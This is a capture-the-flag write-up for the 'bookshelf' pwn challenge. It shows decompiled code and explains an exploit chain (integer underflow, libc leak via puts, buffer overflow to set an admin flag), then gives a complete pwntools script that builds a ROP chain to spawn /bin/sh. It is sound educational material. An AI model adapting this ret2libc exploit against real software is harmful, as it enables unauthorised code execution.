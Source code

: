 The main function calls other functions depending on the input we give it.

There are three interesting functions:
1. BuyBook
```ghidra
void buyBook(void)

{
  char cVar1;
  int iVar2;
  
  puts("Want to buy an adventure on paperback?");
  puts("Here\'s what we have in stock");
  puts("======================================");
  printf("|Cash balance: $%u|\n",(ulong)cash);
  puts("1) The Catcher in the ROP - $300");
  puts("2) The Great Hacksby - $425");
  puts("3) The Address of puts() - $99999999");
  puts("======================================");
  printf("What do you want to read? >> ");
  iVar2 = getchar();
  cVar1 = (char)iVar2;
  if (cVar1 != '\n') {
    getchar();
  }
  if (cVar1 == '3') {
    if (cash < 99999999) {
      puts("You don\'t have enough cash!");
    }
    else {
      printf("In the realm of bits and bytes, the audacious CTF player searched and searched, seekin g something useful for their intellectual shenanigans. At long last, they had finally found it . For in the distance, in all it\'s glory %p rested in slumber, it\'s image telling a story. T he End.\n"
             ,puts);
    }
  }
  else {
    if ('3' < cVar1) {
LAB_00401543:
      puts("\nInvalid option!\n");
      buyBook();
      return;
    }
    if (cVar1 == '1') {
      if (cash < 300) {
        puts("You don\'t have enough cash!");
      }
      else {
        cash = cash - 300;
        puts(
            "A restless hacker named Holden Codefield discovered ROP and became obsessed with its po wer. He saw himself as a catcher in the ROP, navigating through memory addresses to seiz e control. His place in the world soon to reveal. The End."
            );
      }
    }
    else {
      if (cVar1 != '2') goto LAB_00401543;
      if (cash < 0x1a9) {
        puts("You don\'t have enough cash!");
      }
      else {
        cash = cash - 0x1a9;
        puts(
            "In the midst of the Roaring Twenties, extravagant parties corrupted Jay Gatsby\'s memor y. Even with corrupted memory, Gatsby sought to change his past, but realized he\'d neve r be able to find an exploit that rewrites the shattered dreams of lost love. The End."
            );
      }
    }
  }
  printf("\nThanks for you\'re buisness, would you like to leave a tip? (y/N) >> ");
  iVar2 = getchar();
  cVar1 = (char)iVar2;
  if (cVar1 != '\n') {
    getchar();
  }
  if ((cVar1 == 'Y') || (cVar1 == 'y')) {
    puts("\nYay! Thank you!");
    cash = cash - 10;
  }
  else {
    puts("\nOh... ok");
  }
  return;
}
```

2. WriteBook

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/38a45181-eb72-4c87-b781-a65d5f3bd504)

4. AdminBook

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/1d183167-a881-48ef-a141-104855d7d7ef)


---

Since there is a buffer overflow in adminBook, Our final objective is to utilize the AdminBook function to perform a ROPchain to execute `system('/bin/sh')`.  

However, to use that function we must be "admin". We can achieve this by using the write book function, choosing audiobook and overwriting the admin flag by overflowing the buffer.  

Now we need to find the base of libc. We can do that by underflowing the `cash` integer on buyBook by repeatedly leaving tips and then buying the address of puts().  


Now that we know the exploit chain we have to follow here is the solve script:
```python
#!/usr/bin/env python2

import os
import re
import sys

from pwn import *

elf = ELF("./bookshelf_patched")
libc = ELF("./libc.so.6")
context.binary = elf
context.arch = 'amd64'
context.bits = 64

r = ["chal.pctf.competitivecyber.club",4444]
#p = remote(r[0],r[1])

p = process('./bookshelf_patched')
#gdb.attach(p)

#step 1: Find puts
p.sendline(b'2')
p.sendline(b'2')
p.sendline(b'y')

for i in range(10):
    p.sendline(b'2')
    p.sendline(b'3')
    p.sendline(b'y')

p.sendline(b'2')
p.sendline(b'3')
p.recvuntil('glory')
puts_addr = p.recvuntil(b'rested', drop=True)
puts_addr = int(puts_addr.strip(),16)
log.success("puts @ "+str(hex(puts_addr)))
p.sendline(b'n')
log.success('Step 1 Completed')

#step 2
# become admin by stack overflow if audiobook chosen
p.sendline(b'1')
p.sendline(b'y')
p.sendline(b'A'*40)
p.sendline(b'3')

log.success('Step 2 Completed')

#Step 3 -> Do ropchain with libc
offset = 56
ret = 0x40101a
libc.address = puts_addr - libc.symbols['puts']
poprdi_ret = libc.address +0x000000000002a3e5
binsh = next(libc.search(b'/bin/sh'))
# at this point since we've specified the base of libc pwntools finds the correct one
system = libc.symbols['system']

rop = ROP(elf)
rop.raw(offset*"A")
rop.raw(ret)
rop.raw(poprdi_ret)
rop.raw(binsh)
rop.raw(system)
payload = rop.chain()

p.sendline(payload)



p.interactive()
```
